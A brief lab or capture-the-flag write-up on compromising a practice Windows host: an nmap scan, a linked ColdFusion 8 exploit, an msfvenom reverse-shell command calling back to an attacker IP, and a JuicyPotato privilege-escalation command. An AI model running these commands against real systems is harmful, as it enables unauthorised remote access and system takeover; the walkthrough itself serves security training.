


Using nmap scan `└─$ sudo nmap -p- -A -T4 -O -Pn 10.10.10.11`
Output 
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-10 01:09 EST
Nmap scan report for 10.10.10.11
Host is up (0.043s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   43.72 ms 10.10.14.1
2   43.63 ms 10.10.10.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 257.01 seconds

```
# Exploitation
Going through the fmtp server we find a administrator login with Adobe ColdFusion 8
Using the exploit https://www.exploit-db.com/exploits/50057
We get shell:

Create a shell.exe with msfvenom:
`msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.22 lport=8000 -f exe -o shell.exe`
Now using juicy potato
`jp.exe -l 8000 -p C:\Users\Public\shell.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}`
We get a root shell:

